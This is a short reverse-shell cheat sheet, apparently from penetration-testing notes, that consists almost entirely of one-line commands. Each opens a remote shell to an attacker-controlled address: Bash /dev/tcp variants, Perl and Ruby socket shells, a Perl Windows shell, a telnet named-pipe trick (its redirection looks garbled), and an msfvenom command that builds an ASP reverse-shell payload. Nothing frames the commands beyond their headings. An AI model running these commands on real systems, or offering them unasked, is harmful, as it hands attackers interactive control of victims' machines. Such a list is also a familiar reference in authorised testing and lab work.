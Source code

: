 ## Bash

* **Method 1:**
  ```
  bash -i >& /dev/tcp/10.10.14.6/4444 0>&1
  ```
* **Method 2:**
  ```
  exec 5<>/dev/tcp/IP/80
  cat <&5 | while read line; do $line 2>&5 >&5; done
  ```
  or:
  ```
  while read line 0<&5; do $line 2>&5 >&5; done
  ```
* **Method 3:**
  ```
  bash -c "0<&196;exec 196<>/dev/tcp/10.10.14.6/4444; sh <&196 >&196 2>&196"
  ```


## Perl  
```
perl -e 'use Socket;$i="10.10.14.4";$p=6677;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


## Perl windows
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Ruby  
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


## telnet
  ```
  rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
  ```


## asp
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.168.168 LPORT=443 -f asp -o shell.asp - also works for exporting .aspx
```
